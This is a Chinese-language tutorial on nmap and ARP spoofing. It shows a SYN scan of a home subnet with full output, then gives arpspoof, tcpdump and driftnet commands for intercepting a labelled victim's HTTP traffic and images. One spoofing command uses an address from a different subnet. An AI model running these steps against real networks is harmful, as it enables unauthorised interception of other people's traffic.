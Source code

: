 Nmap，也就是Network Mapper，最早是Linux下的网络扫描和嗅探工具包。

nmap是一个网络连接端扫描软件，用来扫描网上电脑开放的网络连接端。
确定哪些服务运行在哪些连接端，并且推断计算机运行哪个操作系统（这是亦称 fingerprinting）。
它是网络管理员必用的软件之一，以及用以评估网络系统安全。
正如大多数被用于网络安全的工具，nmap 也是不少黑客及骇客（又称脚本小子）爱用的工具 。
系统管理员可以利用nmap来探测工作环境中未经批准使用的服务器，但是黑客会利用nmap来搜集目标电脑的网络设定，从而计划攻击的方法。
Nmap 常被跟评估系统漏洞软件Nessus 混为一谈。Nmap 以隐秘的手法，避开闯入检测系统的监视，并尽可能不影响目标系统的日常操作。




执行扫描:
```shell script
root@kali:~# nmap -sS 192.168.0.1/24
```

```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-23 02:59 CST
Nmap scan report for 192.168.0.1
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: 78:44:FD:77:53:EF (Tp-link Technologies)

Nmap scan report for 192.168.0.100
Host is up (0.0040s latency).
All 1000 scanned ports on 192.168.0.100 are filtered
MAC Address: 9C:A6:15:5C:37:D2 (Tp-link Technologies)

Nmap scan report for 192.168.0.101
Host is up (0.0039s latency).
All 1000 scanned ports on 192.168.0.101 are filtered
MAC Address: 28:2C:B2:C1:70:C1 (Tp-link Technologies)

Nmap scan report for 192.168.0.102
Host is up (0.14s latency).
Not shown: 999 filtered ports
PORT     STATE  SERVICE
6881/tcp closed bittorrent-tracker
MAC Address: 60:3A:7C:11:07:38 (Tp-link Technologies)

Nmap scan report for 192.168.0.103
Host is up (0.012s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
16080/tcp open  osxwebadmin
MAC Address: A4:50:46:6C:CE:65 (Xiaomi Communications)

Nmap scan report for 192.168.0.105
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: 54:99:63:33:AB:B5 (Apple)

Nmap scan report for 192.168.0.109
Host is up (0.00026s latency).
Not shown: 999 filtered ports
PORT    STATE SERVICE
135/tcp open  msrpc
MAC Address: 28:3A:4D:74:FA:41 (Cloud Network Technology (Samoa) Limited)

Nmap scan report for 192.168.0.128
Host is up (0.0000020s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (8 hosts up) scanned in 102.69 seconds
```


注意：运行 arpspoof 命令时提示：arpspoof未找到命令，其原因是你还未安装 arpspoof 工具；arpspoof 是 dsniff 的一个附属工具，所以我们需要安装的是 dsniff

打开一个控制台
```shell script
root@kali:~# apt-get install dsniff
root@kali:~# arpspoof -i eth0 -t 192.168.0.103(受害者ip) 192.168.0.1(路由器ip)   #告诉192.168.0.103(受害者ip),我是路由器
```

我们再打开一个控制台：
```shell script
root@kali:~# arpspoof -i eth0 -t 192.168.0.1(路由器ip) 192.168.1.101(我的ip)    #告诉路由器,我的ip是(受害者)
``` 

我们再打开一个控制台：
```shell script
root@kali:~# tcpdump tcp -nnAi eth0 port 80 and host 192.168.0.103(受害者ip)
``` 

安装图形捕获工具driftnet
```shell script
root@kali:~# apt-get install driftnet   #安装图形显示软件
root@kali:~# driftnet -i eth0    #获取0号网卡数据显示   
``` 

driftnet [选项] [过滤码]
选项：
-h              显示此帮助信息。
-v              详细操作。
-b              拍摄新图像时发出哔哔声。
-i interface    选择要监听的界面（默认：全部接口）。
-f file         文件而不是在接口上侦听，读取捕获来自pcap转储文件的数据包;文件可以是一个命名管道与Kismet或类似的使用。
-p              不要将听音界面设置为混音模式。
-a              附加模式：不要在屏幕上显示图像，但保存他们到一个临时目录，并宣布他们的名字标准输出。
-m number       在临时目录中保留的最大图像数量在辅助模式下。
-d directory    使用指定的临时目录。
-x prefix       在保存图像时使用的前缀。
-s              尝试从网络提取流式音频数据，除了图像。目前这个支持MPEG数据只要。
-S              提取流式音频而不是图像。
-M command      使用给定的命令播放提取的MPEG音频数据与-s选项;这应该处理MPEG帧在标准输入上提供。默认：`mpg123 - '。


